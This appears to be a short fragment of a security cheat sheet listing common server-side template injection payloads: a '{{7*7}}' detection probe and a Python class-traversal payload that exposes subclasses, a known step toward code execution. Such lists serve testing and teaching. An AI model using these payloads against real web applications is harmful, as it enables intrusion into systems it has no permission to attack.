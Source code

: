 Common SSTI payloads
{{7*7}} → 49
{{''.__class__.__mro__[1].__subclasses__()}} → access to Python classes